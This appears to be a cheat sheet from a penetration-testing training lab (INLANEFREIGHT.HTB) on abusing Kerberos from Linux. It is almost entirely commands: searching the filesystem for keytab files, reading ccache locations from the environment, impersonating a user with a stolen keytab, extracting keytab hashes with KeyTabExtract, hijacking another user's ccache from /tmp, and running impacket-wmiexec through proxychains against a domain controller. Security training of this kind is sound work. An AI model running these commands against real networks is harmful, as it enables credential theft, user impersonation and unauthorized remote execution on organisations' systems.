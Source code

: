 Using Find to Search for Files with Keytab in the Name
```
find / -name *keytab* -ls 2>/dev/null
```

Reviewing Environment Variables for ccache Files.
```
env | grep -i krb5
```

Listing keytab File Information
```
klist -k -t
```

Impersonating a User with a keytab
```
klist
kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
```
```
smbclient //dc01/carlos -k -c ls
```

Extracting Keytab Hashes with KeyTabExtract
```
python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab
```

Log in as Carlos
```
su - carlos@inlanefreight.htb
```

Importing the ccache File into our Current Session
```
klist
cp /tmp/krb5cc_647401106_I8I133 .
export KRB5CCNAME=/root/krb5cc_647401106_I8I133
smbclient //dc01/C$ -k -c ls -no-pass
```

Setting the KRB5CCNAME Environment Variable
```
export KRB5CCNAME=/home/htb-student/krb5cc_647401106_I8I133
```

Using Impacket with proxychains and Kerberos Authentication
> To use the Kerberos ticket, we need to specify our target machine name (not the IP address) and use the option -k. If we get a prompt for a password, we can also include the option -no-pass.
```
proxychains impacket-wmiexec dc01 -k
```


Kerberos Configuration File for INLANEFREIGHT.HTB
```
powen@htb[/htb]$ cat /etc/krb5.conf

[libdefaults]
        default_realm = INLANEFREIGHT.HTB

<SNIP>

[realms]
    INLANEFREIGHT.HTB = {
        kdc = dc01.inlanefreight.htb
    }

<SNIP>
```


[DEV01]: PS C:\Users\backupadm\Documents> klist